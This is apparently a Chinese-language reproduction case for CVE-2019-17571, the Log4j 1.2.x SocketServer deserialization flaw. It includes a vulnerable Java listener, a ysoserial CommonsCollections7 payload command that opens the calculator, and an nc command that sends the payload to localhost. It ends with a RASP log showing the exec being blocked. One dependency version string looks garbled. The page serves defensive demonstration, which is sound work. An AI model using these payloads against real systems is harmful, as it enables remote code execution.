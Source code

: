 # CVE-2019-17571

## 漏洞简介

Apache Log4j 是一个基于 Java 的日志记录工具，是 Apache 软件基金会的一个项目，是几种 Java 日志框架之一。
近日，Apache Log4j 官方披露在 1.2.x 版本中的SocketServer类存在反序列化漏洞（CVE-2019-17571），攻击者可利用漏洞可实现远程代码执行。
Log4j 1.2.x 版本中的 org.apache.log4j.net.SocketServer 类，存在反序列化漏洞。使用 Log4j SocketServer 类创建的 Socket 监听服务处理接受数据时，容易对不可信数据进行反序列化，结合反序列化小工具，攻击者可以实现远程代码执行。

##  影响版本


##  漏洞环境

+ idea新建一个项目，如下图所示：

![img.png](../.vuepress/public/images/case/CVE-2019-17571/img.png)

+ log4j.java

```java
import org.apache.log4j.net.SimpleSocketServer;

public class log4j {
    public static void main(String[] args) {
        System.out.println("Listening on port 1234");
        String[] arguments = {"1234", (new log4j()).getClass().getClassLoader().getResource("log4j.properties").getPath()};
        SimpleSocketServer.main(arguments);
        System.out.println("Log4j output successfuly.");
    }
}
```

+ log4j.properties
```shell
log4j.rootCategory=DEBUG,stdout
log4j.appender.stdout=org.apache.log4j.ConsoleAppender
log4j.appender.stdout.layout=org.apache.log4j.PatternLayout
log4j.appender.stdout.threshold=DEBUG
log4j.appender.stdout.layout.ConversionPattern=[%d{yyy-MM-dd HH:mm:ss,SSS}]-[%p]-[MSG!:%m]-[%c\:%L]%n
```

+ pom.xml
```shell
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>CVE-2019-17571</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
    </properties>

    <dependencies>
        <dependency>
            <groupId>log4j</groupId>
            <artifactId>log4j</artifactId>
            <version>1.2.17</version>
        </dependency>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3-tools.1</version>
        </dependency>
    </dependencies>

</project>
```

+ 使用ysoserial生产payload:

```shell
java -jar ysoserial-master-8eb5cbfbf6-1.jar  CommonsCollections7 "open /System/Applications/Calculator.app" > log4j.bin
```

+ 运行 log4j.Main


+ nc localhost 1234 < log4j.bin


+ 运行结果

![img_1.png](../.vuepress/public/images/case/CVE-2019-17571/img_1.png)

##  RASP防御
启动RASP，再次发起攻击，计算机没有被打开

RASP拦截的日志
```shell
{
    "cmdArray":[
        "open",
        "/System/Applications/Calculator.app"
    ],
    "stackTrace":[
        "java.lang.ProcessImpl.start(ProcessImpl.java)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:125)",
        "org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:122)",
        "org.apache.commons.collections.map.LazyMap.get(LazyMap.java:151)",
        "java.util.AbstractMap.equals(AbstractMap.java:495)",
        "org.apache.commons.collections.map.AbstractMapDecorator.equals(AbstractMapDecorator.java:129)",
        "java.util.Hashtable.reconstitutionPut(Hashtable.java:1241)",
        "java.util.Hashtable.readObject(Hashtable.java:1215)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1185)",
        "java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2256)",
        "java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2147)",
        "java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1646)",
        "java.io.ObjectInputStream.readObject(ObjectInputStream.java:482)",
        "java.io.ObjectInputStream.readObject(ObjectInputStream.java:440)",
        "org.apache.log4j.net.SocketNode.run(SocketNode.java:82)",
        "java.lang.Thread.run(Thread.java:748)"
    ]
}
```

请求耗时：

2021-09-16 09:40:51 INFO  method: ProcessImpl.start.before, 耗时: 0.483677 ms
